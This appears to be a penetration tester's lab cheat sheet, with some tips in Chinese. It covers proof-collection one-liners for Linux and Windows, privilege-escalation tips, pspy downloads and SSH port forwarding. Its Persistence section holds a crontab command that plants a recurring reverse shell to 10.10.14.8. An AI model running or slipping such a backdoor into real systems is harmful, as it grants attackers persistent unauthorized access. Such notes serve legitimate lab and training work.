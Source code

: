# Proof

_Linux_

```bash
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

_Windows_

```powershell
 echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```


# Privilege Escalation

tips1: pspy发现的定时任务命令，可以用grep搜索一下，可能隐藏在某个脚本文件中。
tips2: 查看ls命令借助--full-time这个flag可以判断哪些文件，人为修改过
tips3: tmux session attach

# Download Tool
pspy64
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

pspy32
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```
# Persistence

_Crontab_

```bash
(crontab -l ; echo "*/3 * * * *   	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

# Port Forward

## SSH

```bash
# local port forwarding

# the target host 192.168.0.100 is running a service on port 8888

# and you want that service available on the localhost port 7777

ssh -L 7777:localhost:8888 user@192.168.0.100

# remote port forwarding

# you are running a service on localhost port 9999

# and you want that service available on the target host 192.168.0.100 port 12340

ssh -R 12340:localhost:9999 user@192.168.0.100

# Local proxy through remote host

# You want to route network traffic through a remote host target.host

# so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:12001

ssh -C2qTnN -D 12001 user@target.host
```